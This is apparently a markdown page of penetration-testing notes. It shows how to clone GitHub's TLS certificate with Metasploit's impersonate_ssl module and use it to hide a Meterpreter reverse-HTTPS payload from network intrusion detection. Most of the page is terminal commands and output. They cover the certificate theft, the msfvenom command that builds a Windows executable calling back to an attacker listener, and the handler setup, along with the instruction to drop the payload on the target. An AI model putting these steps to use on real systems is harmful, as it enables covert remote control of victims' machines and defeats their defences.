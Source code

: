 - Most security solutions also do network intrusion detection, by analyzing the traffic coming to and from the target machines. In this case, it is most likely that, even if we can use encoders to bypass the antivirus, our payload will get caught when trying to connect to our listener.
- We are using a valid TLS certificate now here.

## Using HTTP SSL Certificate Impersonation auxiliary module 
- We use this module to impersonate SSL certificate
- Then we use it to encrypt the communication between the payload and the listener.
```python
┌──(root㉿kali)-[/]
└─# msfconsole -q
use auxiliary/gather/impersonate_ssl
set RHOST www.github.com
[*] Starting persistent handler(s)...
msf6 > use auxiliary/gather/impersonate_ssl
msf6 auxiliary(gather/impersonate_ssl) > set RHOST www.github.com
RHOST => www.github.com
msf6 auxiliary(gather/impersonate_ssl) > run
[*] Running module against 20.207.73.82

[*] 20.207.73.82:443 - Connecting to 20.207.73.82:443
[*] 20.207.73.82:443 - Copying certificate from 20.207.73.82:443
/C=US/ST=California/L=San Francisco/O=GitHub, Inc./CN=github.com 
[*] 20.207.73.82:443 - Beginning export of certificate files
[*] 20.207.73.82:443 - Creating looted key/crt/pem files for 20.207.73.82:443
[+] 20.207.73.82:443 - key: /root/.msf4/loot/20230410145527_default_20.207.73.82_20.207.73.82_key_070930.key
[+] 20.207.73.82:443 - crt: /root/.msf4/loot/20230410145527_default_20.207.73.82_20.207.73.82_cer_001033.crt
[+] 20.207.73.82:443 - pem: /root/.msf4/loot/20230410145527_default_20.207.73.82_20.207.73.82_pem_483662.pem
[*] Auxiliary module execution completed
msf6 auxiliary(gather/impersonate_ssl) > msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.216.9 LPORT=443 HandlerSSLCert=/root/.msf4/loot/20230410145527_default_20.207.73.82_20.207.73.82_pem_483662.pem StagerVerifySSLCert=true -f exe -o payloadnew.exe
[*] exec: msfvenom -p windows/meterpreter_reverse_https LHOST=192.168.216.9 LPORT=443 HandlerSSLCert=/root/.msf4/loot/20230410145527_default_20.207.73.82_20.207.73.82_pem_483662.pem StagerVerifySSLCert=true -f exe -o payloadnew.exe

Overriding user environment variable 'OPENSSL_CONF' to enable legacy functions.
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 176732 bytes
Final size of exe file: 251904 bytes
Saved as: payloadnew.exe
msf6 auxiliary(gather/impersonate_ssl) > ls
[*] exec: ls

0     btools	 etc	     initrd.img.old  lib64	  lost+found  opt	      proc    run   sys  var
bin   Changelog  home	     lib	     libx32	  media       payloadnew.exe  README  sbin  tmp  vmlinuz
boot  dev	 initrd.img  lib32	     LICENSE.txt  mnt	      payloadwin      root    srv   usr  vmlinuz.old
```
**Note - At the end you need to drop this payload to the target machine and then you get a session in your meterpreter.

```python
┌──(root㉿kali)-[/]
└─# msfconsole -q                                                                                                        
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter_reverse_https
PAYLOAD => windows/meterpreter_reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.216.9
LHOST => 192.168.216.9
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set HandlerSSLCert
HandlerSSLCert => 
msf6 exploit(multi/handler) > set HandlerSSLCert /root/.msf4/loot/20230410145527_default_20.207.73.82_20.207.73.82_pem_483662.pem
HandlerSSLCert => /root/.msf4/loot/20230410145527_default_20.207.73.82_20.207.73.82_pem_483662.pem
msf6 exploit(multi/handler) > set StagerVerifySSLCert true
StagerVerifySSLCert => true
msf6 exploit(multi/handler) > exploit

[*] Meterpreter will verify SSL Certificate with SHA1 hash a9ea99feba37b2b2cc077bfa34dad2e79dd5755f
[*] Started HTTPS reverse handler on https://192.168.216.9:443

```
- Once your payload successfully executed on target then you get a session on your machine.